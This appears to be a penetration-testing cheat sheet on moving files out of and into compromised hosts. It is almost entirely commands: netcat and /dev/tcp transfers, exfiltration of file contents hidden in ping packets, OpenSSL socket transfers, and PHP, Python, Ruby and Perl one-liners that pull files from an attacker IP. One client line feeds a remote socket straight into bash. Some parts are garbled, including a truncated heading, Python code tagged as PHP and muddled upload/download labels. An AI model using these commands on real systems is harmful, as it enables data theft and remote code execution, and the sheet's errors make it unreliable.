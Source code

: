 # File Exfiltration/Download

## Upload file

### bash + nc (TCP)

Client:

    bash < /dev/tcp/IP_ADDRESS/PORT

Server:

    nc -lvnp PORT < FILE

### Ping

```sh
cat FILE | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 IP_ADDRESS; done
```

### OpenSSL

Client:

    openssl s_client -connect IP_ADDRESS:PORT -quiet > FILE

Server:

```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
openssl s_server -quiet -accept PORT -cert certificate.pem -key key.pem < FILE
```

### Progra

#### PHP

```php
php -r '$file = file_get_contents("http://IP_ADDRESS:PORT/FILE"); file_put_contents("FILENAME",$file);'
```

#### Python3

```php
import urllib.request
urllib.request.urlretrieve("http://IP_ADDRESS:PORT/FILE", "FILENAME")
```

#### Ruby

```ruby
ruby -e 'require "net/http"; File.write("FILENAME", Net::HTTP.get(URI.parse("http://IP_ADDRESS:PORT/FILE")))'
```

#### Perl

```perl
perl -e 'use LWP::Simple; getstore("http://IP_ADDRESS:PORT/FILE", "FILENAME");'
```

## Download file

Target:

    nc IP_ADDRESS 1234 < out.file

Source:

    nc -lvnp PORT > FILE
